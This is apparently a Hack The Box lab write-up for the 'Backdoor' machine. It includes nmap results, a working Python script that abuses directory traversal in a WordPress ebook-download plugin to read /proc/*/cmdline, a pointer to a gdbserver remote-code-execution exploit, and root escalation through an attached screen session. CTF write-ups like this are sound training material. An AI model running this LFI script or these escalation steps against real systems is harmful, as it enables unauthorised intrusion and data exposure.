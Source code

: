 ```yaml
---
title: Backdoor - Easy
categories: htb LFI RCE
excerpt: | 
  Linux machine with a vulnerable page. 

feature_text: |
  ## Backdoor - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```



### Scanning process
nmap ip:
``` 
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

``` 
Starting with port 80... We have to examine what type of service is, so `whatweb 'http://10.10.11.125'` will determine the following steps. 
It is running WordPress, it is known that some directories are abaible like wp-content and specifically `wp-content/plugins`. It is usual that a service like WordPress has some plugins outdate. And it is our case. 
`searchsploit wordpress ebook download` is vulnerable to a Directory traversal attacks.


### Scripting in python
Now it's time to type some code in python to exploit this LFI. There are some path that are interesting to search into, like /proc where are located all active processes and how they were runed.
``` python
#!/usr/bin/python3

from pwn import *
import time, pdb, signal, sys, requests

# Global
main_url = "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/"

# Ctrl+C
def def_handler(signum, frame):
    print("[!] Saliendo...")
    sys.exit(1)

def bruteForce():
    p1 = log.progress("Brute Force:")
    p1.status("Starting attack")

    s = requests.session()
    time.sleep(2)

    for i in range(1, 1000):
        p1.status("Trying with /proc/%s/cmdline" % str(i))
        
        url = main_url + str(i) + "/cmdline"
        r = s.get(url)
        if( len(r.content) > 82 ):
            print("------------------------------------------------")
            log.info("/proc/%s/cmdline" % str(i))
            print(r.content)
            print("------------------------------------------------")

signal.signal(signal.SIGINT, def_handler)

if __name__ == "__main__":
    bruteForce()

```
>[*] /proc/858/cmdline
>/bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \\;; done'

>[*] /proc/859/cmdline
>/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done'


We found a gdbserver running in port 1337. `searchsploit gdbserver` and follow the RCE attack. You will be 'user'


### Privilege scalation
Finally we have to search  SUID privilege and there would be some ways to go to /root. This time we can see `/usr/bin/screen` and we saw the cmdline of this process before...
There is a session named as root that we can use. `screen -x root/`. It is all, you are root!
